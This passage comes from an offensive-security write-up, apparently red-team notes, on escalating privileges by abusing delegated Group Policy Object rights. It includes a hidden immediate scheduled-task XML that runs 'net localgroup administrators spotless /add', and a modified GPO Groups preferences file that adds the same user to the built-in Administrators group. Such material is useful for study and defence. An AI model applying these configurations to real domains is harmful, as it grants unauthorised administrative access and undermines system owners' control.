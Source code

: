 ```markup
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```
{% endcode %}

### Users and Groups <a href="#users-and-groups" id="users-and-groups"></a>

The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```